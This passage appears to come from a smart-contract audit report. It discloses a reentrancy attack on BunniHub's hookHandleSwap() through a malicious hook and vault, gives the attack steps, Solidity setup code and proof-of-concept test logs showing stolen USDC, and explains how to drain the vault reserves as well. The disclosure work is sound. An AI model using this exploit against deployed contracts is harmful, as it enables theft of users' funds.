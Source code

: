 The execution does the following:
1. Calls `depositInitialReserves()` from the malicious hook which essentially deposits and accounts some raw balance into `BunniHub`.
2. Calls the `hookHandleSwap()` function inside `BunniHub` to withdraw the previously deposited amount.
3. The `BunniHub` transfers the tokens to the hook.
4. The `hookHandleSwap()` tries to reach the `targetRawBalance` of token1 and calls the `deposit()` into the malicious vault which forwards the execution back to the malicious hook.
5. The malicious hook calls the `unlockForRebalance()` function to disable the reentrancy protection.
6. The malicious hook reenters the `hookHandleSwap()` function the same way as step 2.

Once the function has been re-entered a sufficient number of times to drain all raw balances, the state will be set to 0 instead of decrementing, avoiding an underflow. The end result will be the malicious hook owning all ERC-6909 tokens previously held by the `BunniHub`.

Output:
```bash
Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] test_ForkHookHandleSwapDrainRawBalancePoC() (gas: 20540027)
Logs:
  BunniHub token0 raw balance before 219036268296
  BunniHub token0 vault reserve before 388807745471
  MaliciousHook token0 balance before 0
  BunniHub token0 raw balance after 9036268296
  BunniHub token0 vault reserve after 388807745471
  MaliciousHook token0 balance after 210000000000
  Stolen USDC 200000000000
```

It is also possible to drain all vault reserves held by the `BunniHub` by modifying the token ratio bounds of the malicious hook as follows:

```solidity
minRawTokenRatio0: 0,           // set to 0% in order to have all deposited funds accounted into the vault
targetRawTokenRatio0: 0,        // set to 0% in order to have all deposited funds accounted into the vault
maxRawTokenRatio0: 0,           // set to 0% in order to have all deposited funds accounted into the vault
```

With this modification, the target raw balance for the vault to drain is set to 0% in order to have all the liquidity accounted into the vault. This way, when the `BunniHub` attempts to transfer the funds to the hook, it will have to withdraw the funds from the vault which can be exploited to repeatedly burn vault shares from other pools.

The attack setup should also be modified slightly to calculate the optimal number of iterations:

```solidity
uint256 sharesToMint = ERC4626(USDCVault).previewDeposit(initialToken0Deposit) - 1e6;
CustomHook(payable(customHook)).initiateAttack(
    IBunniHub(address(hub)),
    maliciousKey,
    USDCVault,
    sharesToMint,
    Vector.HOOK_HANDLE_SWAP,
    ERC4626(USDCVault).balanceOf(address(hub)) / sharesToMint
);

Output:
```bash
Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] test_ForkHookHandleSwapDrainReserveBalancePoC() (gas: 23881409)
Logs:
  BunniHub token0 raw balance before 209036268296
  BunniHub token0 vault reserve before 398583692087
  MaliciousHook token0 balance before 0
```